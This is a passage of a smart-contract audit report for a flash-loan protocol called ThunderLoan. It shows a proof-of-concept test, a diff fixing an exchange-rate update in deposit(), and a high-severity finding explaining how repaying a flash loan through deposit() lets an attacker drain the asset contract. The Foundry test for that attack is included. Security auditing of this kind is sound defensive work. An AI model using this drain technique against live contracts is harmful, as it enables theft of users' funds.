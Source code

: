             vm.startPrank(user);
            tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
            thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
            vm.stopPrank();

            uint256 amountToRedeem = type(uint256).max;
            vm.startPrank(liquidityProvider);
            thunderLoan.redeem(tokenA, amountToRedeem);
    ```

</details>

**Recommended Mitigation:** Remove the incorrectly updated exchange rate lines form 'deposit'

```diff
       function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```

### [H-2] All the funds can be stolen if the flash loan is returned using deposit()

**Description:** The flashloan() performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing endingBalance with startingBalance + fee. However, a vulnerability emerges when calculating endingBalance using token.balanceOf(address(assetToken)).

Exploiting this vulnerability, an attacker can return the flash loan using the deposit() instead of repay(). This action allows the attacker to mint AssetToken and subsequently redeem it using redeem(). What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.

**Impact:** All the funds of the AssetContract can be stolen.

**Proof of Concept:** To execute the test successfully, please complete the following steps:

1. Place the **`attack.sol`** file within the mocks folder.
1. Import the contract in **`ThunderLoanTest.t.sol`**.
1. Add **`testattack()`** function in **`ThunderLoanTest.t.sol`**.
1. Change the **`setUp()`** function in **`ThunderLoanTest.t.sol`**.

```Solidity
import { Attack } from "../mocks/attack.sol";
```

```Solidity
function testattack() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        vm.startPrank(user);
        tokenA.mint(address(attack), AMOUNT);
        thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
        attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);
    }
```
